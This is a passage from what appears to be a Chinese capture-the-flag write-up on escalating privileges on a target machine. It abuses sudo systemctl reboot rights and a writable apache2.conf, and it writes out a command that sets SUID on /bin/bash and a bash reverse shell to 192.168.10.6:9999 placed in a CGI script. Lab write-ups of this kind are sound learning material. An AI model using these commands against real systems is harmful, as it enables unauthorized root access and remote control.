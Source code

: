 # 分析sudo

这里`sudo -l`给出三个

```shell
/bin/systemctl poweroff		#关闭靶机
/bin/systemctl halt			#关闭
/bin/systemctl reboot		#重启靶机
```

既然`systemctl`可以，尝试能否写一个`.service`文件，测试后，在`/etc/systemd/system`目录下不可编辑文件

结合前面`apache2`是以`root`运行进程的，并且配置文件可以修改

好好好，我不知道怎么具体使用，但是肯定要修改配置文件吧，百度一下

###### **测试一**

尝试修改`/etc/apache2/apache2.conf`文件，首先创建一个脚本，然后在`apache2`配置文件中，设置语句，使得重启服务时，执行这个脚本

```shell
echo 'chmod +s /bin/bash' > /var/www/html/1.sh

echo "ExecStartPre=/var/www/html/1.sh" >> apache2.conf
```

这时候重启靶机，也就是执行`sudo /bin/systemctl reboot`，但是重启后，并没有使得`apache2`服务启动，说明在修改配置文件后，若是需要重启，则可能导致失败。并且这样也会使得目标警觉。所以只能换一种方式



###### 测试二

尝试修改`apache2`的配置文件，添加可以运行`cgi`脚本

```shell
<Directory /var/www/html/cgi-bin>
    Options +ExecCGI
    AddHandler cgi-script .cgi
</Directory>
```

然后在网站根目录创建一个`cgi-bin`目录，在其中创建一个脚本，大概内容与前面一致，或者设置反弹`shell`的命令

```shell
mkdir cgi-bin
echo 'chmod +s /bin/bash' > /var/www/html/cgi-bin/1.cgi
或者
echo 'bash -i >& /dev/tcp/192.168.10.6/9999 0>&1' > /var/www/html/cgi-bin/1.cgi
```

然后通过浏览器访问触发。

啧，不过又失败了

网上搜索了一下，大概就是以`root`身份执行`apache2`时，所做的命令都是`root`执行，但是根据目前的情况来看，这是不被允许的，所以需要更换目标用户。

这里的用户在前面信息收集时获取的，有`qiu`这个用户

> **修改用户和组配置**：在`apache2.conf`文件中，`User`和`Group`指令用于指定 Apache 服务器运行时使用的用户和组。攻击者将其修改为目标用户 “qiu”，当 Apache 服务器重新启动后，所有由 Apache 执行的进程都将以 “qiu” 用户的身份运行。这意味着，原本以其他权限运行的服务进程，现在被赋予了 “qiu” 用户的权限，从而实现了权限的变更
